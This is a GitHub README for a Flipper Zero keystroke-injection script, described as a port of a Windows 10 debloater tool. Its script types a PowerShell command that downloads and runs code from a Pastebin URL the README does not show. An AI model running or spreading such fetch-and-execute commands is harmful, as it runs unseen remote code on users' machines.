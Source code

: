 # Windows 10 Debloater GUI Port for Flipper Zero Bad Keyboard

![Debloater GUI Logo](https://raw.githubusercontent.com/levimac-03/flipper-zero-win10debloater-port/main/Debloater%20GUI.png)

This repository contains a script designed for the Flipper Zero Bad Keyboard that executes the Windows 10 Debloater GUI, originally developed by Richard Newton (Sycnex). 

## Overview

The script automates the execution of a PowerShell command that downloads and runs the Windows 10 Debloater GUI from a specified URL. This tool helps users remove unwanted bloatware and optimize their Windows 10 systems.

## Script Description

The script performs the following actions:

1. **Delay**: Waits for 500 milliseconds to ensure the system is ready.
2. **Open Run Dialog**: Simulates pressing `GUI + R` to open the Run dialog.
3. **Delay**: Waits for another 500 milliseconds.
4. **Execute Command**: Types a PowerShell command into the Run dialog that downloads and executes the Debloater GUI script from a specified Pastebin URL.
5. **Submit Command**: Presses `ENTER` to execute the command.

### Script

```plaintext
REM Credit: @Levi-M-2024 @Sycnex-2021

DELAY 500
GUI r
DELAY 500
STRING powershell -Command "iex (Invoke-WebRequest -Uri 'https://pastebin.com/raw/854vZ336' -UseBasicP).Content"
ENTER
```

## Installation

1. **Download**: Clone or download this repository from GitHub.
   ```bash
   git clone https://github.com/yourusername/your-repo-name.git
   ```

2. **Copy the Script**: Place the script file into the "Bad Keyboard" folder on your Flipper Zero SD card. Ensure your device is running Xtreme firmware.

3. **Restart Your Flipper Zero**: After copying the file, restart your Flipper Zero to activate the script.

## Usage

Once installed, the script can be executed via the Flipper Zero Bad Keyboard interface. It will automatically open a PowerShell window and run the Debloater GUI.

## Contributing

Contributions are welcome! For details on contributing, please see our [CONTRIBUTING.md](CONTRIBUTING.md).

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Acknowledgements

- Richard Newton (Sycnex) for the original Windows 10 Debloater GUI.
- Levi-M-2024 for porting the script to Flipper Zero.
- The Flipper Zero community for their ongoing support and contributions.

## Contact

For questions or support, please open an issue on GitHub or contact [your-email@example.com](mailto:your-email@example.com).
